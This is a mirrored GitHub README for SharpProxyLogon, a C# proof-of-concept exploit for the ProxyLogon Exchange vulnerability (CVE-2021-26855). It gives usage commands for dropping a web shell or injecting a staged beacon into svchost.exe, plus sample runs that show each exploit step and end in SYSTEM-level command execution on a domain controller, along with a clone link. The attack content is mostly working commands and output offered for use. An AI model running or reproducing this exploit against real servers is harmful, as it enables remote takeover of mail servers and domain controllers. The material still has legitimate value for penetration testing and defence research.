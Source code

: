 # SharpProxyLogon

C# POC for CVE-2021-26855 aka ProxyLogon, supports the classically semi-interactive web shell as well as shellcode injection 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Flangvik](https://github.com/Flangvik) |
| Url      | [https://github.com/Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)                                               |
| Stars    | 224                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SharpProxyLogon

C# POC for the ProxyLogon chained RCE

```
 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
```

Shellcode injection uses built-in [TikiTorch stub by @Rastamouse](https://github.com/rasta-mouse/TikiTorch), this will spawn, suspend and inject staged_beacon.bin into svchost.exe

```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net C:\Temp\staged_beacon.bin "C:\Windows\System32\svchost.exe"

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary lR_xIbkU4EeRa8k0G_ekSjy7CrzM9dgIeCdYK8sMbRQMUoAQMnEfYvHrvDLT1j2jJMFBrpxnJ1s.
[+] Got aspNETSessionID 0e8da60d-ff97-4748-80f1-5834caeba361
[+] Got OABId 1d2e2d98-c636-43c7-a3a9-8041b545d575
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, triggering injection
```

Example with classic webshell drop
```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary V7mF62VZA0ay793xWTSE07chwKLM9dgIQolVMbEnWJJkvonIUO8VWm2BZdIklFP35W-mtZnUZ4Y.
[+] Got aspNETSessionID 9028e0b3-e56c-4b33-b0e9-b66ab9ab9067
[+] Got OABId cabf9619-178d-4d3e-84a3-748ec598a477
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, going semi-interactive
CMD #>whoami
nt authority\system

CMD #>hostname
DC01

CMD #>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2598:cc98:d369:b6ed%13
   IPv4 Address. . . . . . . . . . . : 192.168.58.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.58.2

CMD #>
```


## Get the content

```
git clone https://github.com/Flangvik/SharpProxyLogon
cd SharpProxyLogon
```

{% embed url="https://github.com/Flangvik/SharpProxyLogon" %}

<figure><img src="https://avatars.githubusercontent.com/u/23613997?v=4" alt=""><figcaption><p>Flangvik</p></figcaption></figure>
